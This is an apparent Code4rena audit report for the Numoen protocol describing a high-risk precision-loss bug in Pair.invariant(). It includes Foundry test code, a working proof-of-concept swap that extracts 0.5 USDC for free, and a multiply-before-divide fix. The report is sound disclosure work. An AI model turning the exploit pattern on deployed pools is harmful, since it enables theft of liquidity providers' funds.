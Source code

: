 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- H-01

# [Precision loss in the invariant function can lead to loss of funds](https://github.com/code-423n4/2023-01-numoen-findings/issues/264) 

# Lines of code

https://github.com/code-423n4/2023-01-numoen/blob/2ad9a73d793ea23a25a381faadc86ae0c8cb5913/src/core/Pair.sol#L56


# Vulnerability details

## Impact
An attacker can steal the funds without affecting the invariant.

## Proof of Concept
We can say the function `Pair.invariant()` is the heart of the protocol.
All the malicious trades should be prevented by this function.
```solidity
Pair.sol
52:   /// @inheritdoc IPair
53:   function invariant(uint256 amount0, uint256 amount1, uint256 liquidity) public view override returns (bool) {
54:     if (liquidity == 0) return (amount0 == 0 && amount1 == 0);
55:
56:     uint256 scale0 = FullMath.mulDiv(amount0, 1e18, liquidity) * token0Scale;//@audit-info precison loss
57:     uint256 scale1 = FullMath.mulDiv(amount1, 1e18, liquidity) * token1Scale;//@audit-info precison loss
58:
59:     if (scale1 > 2 * upperBound) revert InvariantError();
60:
61:     uint256 a = scale0 * 1e18;
62:     uint256 b = scale1 * upperBound;
63:     uint256 c = (scale1 * scale1) / 4;
64:     uint256 d = upperBound * upperBound;
65:
66:     return a + b >= c + d;
67:   }

```
The problem is there is a precision loss in the L56 and L57.
The precision loss can result in the wrong invariant check result.
Let's say the `token0` has 6 decimals and liquidity has more than 24 decimals.
Then the first `FullMath.mulDiv` will cause significant rounding before it's converted to D18.
To clarify the difference I wrote a custom function `invariant()` to see the actual value of `a+b-c-d`.
```
  function invariant(uint256 amount0, uint256 amount1, uint256 liquidity, uint256 token0Scale, uint256 token1Scale) public view returns (uint256 res) {
    if (liquidity == 0) {
        require (amount0 == 0 && amount1 == 0);
        return 0;
    }

    // uint256 scale0 = FullMath.mulDiv(amount0* token0Scale, 1e18, liquidity) ;
    // uint256 scale1 = FullMath.mulDiv(amount1* token1Scale, 1e18, liquidity) ;
    uint256 scale0 = FullMath.mulDiv(amount0, 1e18, liquidity) * token0Scale;
    uint256 scale1 = FullMath.mulDiv(amount1, 1e18, liquidity) * token1Scale;

    if (scale1 > 2 * upperBound) revert();

    uint256 a = scale0 * 1e18;
    uint256 b = scale1 * upperBound;
    uint256 c = (scale1 * scale1) / 4;
    uint256 d = upperBound * upperBound;

    res = a + b - c - d;
  }

  function testAudit1() external
  {
    uint256 x = 1*10**6;
    uint256 y = 2 * (5 * 10**24 - 10**21);
    uint256 liquidity = 10**24;
    uint256 token0Scale=10**12;
    uint256 token1Scale=1;
    emit log_named_decimal_uint("invariant", invariant(x, y, liquidity, token0Scale, token1Scale), 36);

    x = 1.5*10**6;
    emit log_named_decimal_uint("invariant", invariant(x, y, liquidity, token0Scale, token1Scale), 36);
  }
```
Put these two functions in the `LiquidityManagerTest.t.sol` and run the case.
The result is as below and it shows that while the reserve0 amount changes to 150%, the actual value `a+b-c-d` does not change.

```
F:\SOL\Code\Code4rena\2023-01-numoen>forge test -vv --match-test testAudit1
[⠒] Compiling...
No files changed, compilation skipped

Running 1 test for test/LiquidityManagerTest.t.sol:LiquidityManagerTest
[PASS] testAudit1() (gas: 10361)
Logs:
  invariant: 0.000000000000000000000000000000000000
  invariant: 0.000000000000000000000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 5.74ms
```

So what does this mean? We know that if `a+b-c-d` is positive, it means anyone can call `swap()` to withdraw the excess value.
The above test shows that the significant change in the token0 reserve amount did not change the value `a+b-c-d`.
Based on this, I wrote an attack case where dennis pulls 0.5*10**6 token0 without cost while the invariant stays at zero.
Although the benefit is only 0.5 USDC for this test case, this shows a possibility drawing value without affecting the invariant for pools with low decimals.

```solidity
  function testAttack() external
  {
    // token0 is USDC
    token0Scale = 6;
    token1Scale = 18;

    // cuh adds liquidity
    lendgine = Lendgine(factory.createLendgine(address(token0), address(token1), token0Scale, token1Scale, upperBound));

    uint256 amount0 = 1.5*10**6;
    uint256 amount1 = 2 * (5 * 10**24 - 10**21);
    uint256 liquidity = 10**24;

    token0.mint(cuh, amount0);
    token1.mint(cuh, amount1);

    vm.startPrank(cuh);
    token0.approve(address(liquidityManager), amount0);
    token1.approve(address(liquidityManager), amount1);

    liquidityManager.addLiquidity(
      LiquidityManager.AddLiquidityParams({
        token0: address(token0),
        token1: address(token1),
        token0Exp: token0Scale,
        token1Exp: token1Scale,
        upperBound: upperBound,
        liquidity: liquidity,
        amount0Min: amount0,
        amount1Min: amount1,
        sizeMin: 0,
        recipient: cuh,
        deadline: block.timestamp
      })
    );
    vm.stopPrank();
    showLendgineInfo();

    // dennis starts with zero token
    assertEq(token0.balanceOf(dennis), 0);

    // dennis pulls 0.5 USDC free
    lendgine.swap(
      dennis,
      5*10**5,
      0,
      abi.encode(
        SwapCallbackData({token0: address(token0), token1: address(token1), amount0: 0, amount1: 0, payer: dennis})
      )
    );

    showLendgineInfo();

    // assert
    assertEq(token0.balanceOf(dennis), 5*10**5);
  }
```
## Tools Used
Foundry

## Recommended Mitigation Steps
Make sure to multiply first before division to prevent precision loss.
```solidity
  /// @inheritdoc IPair
  function invariant(uint256 amount0, uint256 amount1, uint256 liquidity) public view override returns (bool) {
    if (liquidity == 0) return (amount0 == 0 && amount1 == 0);

    uint256 scale0 = FullMath.mulDiv(amount0 * token0Scale, 1e18, liquidity) ;//@audit-info change here
    uint256 scale1 = FullMath.mulDiv(amount1 * token1Scale, 1e18, liquidity) ;//@audit-info change here

    if (scale1 > 2 * upperBound) revert InvariantError();

    uint256 a = scale0 * 1e18;
    uint256 b = scale1 * upperBound;
    uint256 c = (scale1 * scale1) / 4;
    uint256 d = upperBound * upperBound;

    return a + b >= c + d;
  }

```